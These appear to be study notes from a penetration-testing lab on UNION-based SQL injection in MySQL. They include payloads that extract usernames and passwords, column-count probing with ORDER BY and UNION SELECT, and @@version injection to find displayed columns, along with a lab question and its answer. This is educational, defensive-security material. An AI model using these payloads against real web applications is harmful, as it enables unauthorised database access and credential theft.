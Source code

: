 The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements.

```shell-session
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
3 rows in set (0.00 sec)
```

```shell-session
mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
1 rows in set (0.00 sec)
```

## UNION

```shell
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return `username` and `password` entries from the `passwords` table, assuming the `products` table has two columns.

## Uneven Columns
When using a **`UNION SELECT`** injection, your goal is to **merge your custom query with the original query**. For it to work properly:

👉 The number of columns **must match** between both queries.
If not, SQL will throw an error like:

`ERROR: The used SELECT statements have a different number of columns`


EXAMPLE

```sql 

ORIGINA: SELECT * FROM products WHERE product_id = '1'


INJECT: ' UNION SELECT username FROM users-- 


QUERY: SELECT * FROM products WHERE product_id = '1' UNION SELECT username FROM users


FAILS: The original query returns 2 columns.
		Your injected query returns only 1 column (`username`).

✅ The Fix: Padding with Junk Values

' UNION SELECT username, 123 FROM users--


```
`username` goes in column 1
`123` (junk value) fills column 2

Q : Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.

```sql
SELECT COUNT(*) AS total, 'departments' AS source FROM departments
UNION
SELECT COUNT(*) AS total, 'employees' AS source FROM employees;
```

## Detect number of columns
- Using `ORDER BY`
- Using `UNION`

#### Using ORDER BY

```sql
' order by 1-- -
```

If no error, proceed to:

```sql
' ORDER BY 2-- -

```

and so forth...

When you get an error, say on `ORDER BY 5`, it means only columns 1 to 4 exist → **4 columns total**.


#### Using UNION SELECT

Try to inject a `UNION SELECT` with increasing numbers of columns.
```sql
' UNION SELECT 1-- -


' UNION SELECT 1,2-- -


' UNION SELECT 1,2,3-- -


UNTIL SUCESSFULL
```

## Location of Injection

While a query may return multiple columns, the web application may only display some of them. So, if we inject our query in a column that is not printed on the page, we will not get its output. This is why we need to determine which columns are printed to the page, to determine where to place our injection. In the previous example, while the injected query returned 1, 2, 3, and 4, we saw only 2, 3, and 4 displayed back to us on the page as the output data:

It is very common that not every column will be displayed back to the user. For example, the ID field is often used to link different tables together, but the user doesn't need to see it. This tells us that columns 2 and 3, and 4 are printed to place our injection in any of them. `We cannot place our injection at the beginning, or its output will not be printed.`

```sql
cn' UNION select 1,@@version,3,4-- -
```
If you see something like `10.3.22-MariaDB-1ubuntu1` where `2` was, then column 2 **displays data**.

![[Pasted image 20250802153236.png]]

|Step|Purpose|
|---|---|
|Inject numbered payload|Find which columns display output|
|Replace a number with `@@version`|Confirm that column is displayed and can show real data|
|Place your sensitive data in displayed columns|Your injection results will appear on the page|

